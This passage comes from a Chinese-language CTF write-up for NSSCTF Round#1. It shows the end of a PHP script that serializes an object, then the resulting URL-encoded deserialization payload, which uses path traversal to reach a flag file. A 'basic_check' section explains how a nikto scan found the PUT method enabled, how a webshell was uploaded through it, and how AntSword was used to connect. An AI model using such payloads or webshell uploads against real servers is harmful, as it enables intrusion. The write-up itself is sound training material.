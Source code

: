 ```php

  public $filename='../nssctfasdasdflag';   

  public $openstack;

  public $docker=NULL; 

​    

}  

$a= new acp();

echo urlencode(serialize($a));

 

?>
```

Payload:

?pks=O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A19%3A%22..%2Fnssctfasdasdflag%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D



------

###  basic_check

打开后只有一句:

```
 <?php highlight_file(__FILE__);// Welcome to NSSCTF Round#1 Basic, have fun.
```

右键源码和dirsearch都找不出东西，看了wp才发现要用nikto -h扫一下

 ![image-20250227221938410](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227221938410.png)

 发现一句：HTTP method 'PUT' allows clients to save files on the web server. 

使用PUT上传木马：

![image-20250227221953306](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227221953306.png)

 

蚁剑连接即可在根目录找到flag



------

### easycms
